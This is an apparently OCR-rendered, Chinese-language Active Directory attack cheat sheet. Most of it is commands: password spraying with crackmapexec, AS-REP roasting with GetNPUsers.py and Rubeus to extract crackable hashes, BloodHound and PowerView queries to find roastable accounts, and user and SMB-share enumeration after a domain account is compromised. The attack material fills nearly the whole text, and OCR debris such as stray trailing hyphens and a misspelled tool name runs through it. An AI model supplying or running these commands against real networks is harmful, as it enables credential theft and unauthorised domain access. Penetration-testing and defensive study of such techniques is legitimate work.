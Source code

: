 ### 密码喷洒


```
获取域密码策略 ：-
crackmapexec <IP> -u 'user' -p 'password' --pass-pol-
enum4linx -u 'username' -p 'password' -P <IP>-
-
cme smb <dc-ip> -u user.txt -p password.txt --no-bruteforce # 不爆破，只测试单一的 user=password-
-
cme smb <dc-ip> -u user.txt -p password.txt # 交叉爆破，根据密码策略，失败过多可能会被封禁-

```

### ASREP-Roasting攻击

#### 获取hash



```

python GetNPUsers.py <domain>/ -usersfile <usernames.txt> -format hashcat -outputfile <hashes.domain.txt>-
-
Rubeus asreproast /format:hashcat-
```


#### 获取ASREP-Roastable账号



Get-DomainUser -PreauthNotRequired -Properties SamAccountName-
-
MATCH (u:User {dontreqpreauth:true}), (c:Computer), p=shortestPath((u)-\[\*1..\]->(c)) RETURN p-

## 拿到任意一个域用户的账号密码

### 获取其他账户密码

#### 1.获取域内所有账户名



```

GetADUsers.py -all -dc-ip <dc\_ip> <domain>/<username>-
```


#### 2.枚举 SMB 共享




```
cme smb <ip> -u <user> -p <password> --shares-
```
